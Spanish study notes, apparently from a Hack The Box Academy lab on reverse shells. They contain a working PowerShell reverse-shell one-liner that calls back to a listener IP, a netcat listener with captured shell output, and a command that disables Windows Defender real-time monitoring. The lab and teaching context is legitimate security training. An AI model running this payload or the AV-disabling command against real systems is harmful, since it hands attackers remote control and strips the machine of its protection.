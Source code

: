 En un `reverse shell`, el `HACKER` tendrá un oyente ejecutándose y `LA VICTIMA` deberá iniciar la conexión.
![Reverse|700x400](https://academy.hackthebox.com/storage/modules/115/reverseshell.png)

A menudo usamos este tipo de shell cuando nos encontramos con sistemas vulnerables porque es probable que un administrador pase por alto las conexiones salientes, lo que nos brinda una mayor probabilidad de pasar desapercibidos.

> [!NOTE]
> No siempre necesitamos reinventar la rueda cuando se trata de cargas útiles (comandos y código) que pretendemos usar al intentar establecer un caparazón inverso con un objetivo. Existen herramientas útiles que los veteranos de la seguridad de la información han creado para ayudarnos. [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) es un recurso fantástico que contiene una lista de diferentes comandos, códigos e incluso generadores automatizados de shell inverso que podemos usar cuando practicamos o en un compromiso real. Debemos tener en cuenta que muchos administradores conocen los repositorios públicos y los recursos de código abierto que suelen utilizar los evaluadores de penetración. Pueden hacer referencia a estos repositorios como parte de sus consideraciones principales sobre qué esperar de un ataque y ajustar sus controles de seguridad en consecuencia. En algunos casos, es posible que necesitemos personalizar un poco nuestros ataques.

## Práctica con un reverse shell simple en Windows
#### Servidor ( `attack box`)
```js
p314d0@htb[/htb]$ sudo nc -lvnp 443
```
#### Cliente (objetivo)
```cmd
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.15.13',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

```js
┌──(pelado㉿kali)-[~/HTB/Academy/ShellsPayloads]
└─$ sudo nc -lvnp 443                          
[sudo] password for pelado: 
listening on [any] 443 ...
connect to [10.10.15.13] from (UNKNOWN) [10.129.201.51] 49874
whoami
shells-win10\htb-student
PS C:\Users\htb-student> 
```

A veces, el `Windows Defender antivirus` ( `AV`) el software detuvo la ejecución del código. Esto está funcionando exactamente como estaba previsto y desde un punto de vista `defensivo` , este es un `win`. Desde un punto de vista ofensivo, existen algunos obstáculos que superar si AV está habilitado en un sistema al que intentamos conectarnos. Para nuestros propósitos, querremos desactivar el antivirus a través del `Virus & threat protection settings` o usando este comando en una consola administrativa de PowerShell (haga clic derecho, ejecute como administrador):
#### Desactivar AV
```powershell
PS C:\Users\htb-student> Set-MpPreference -DisableRealtimeMonitoring $true
```

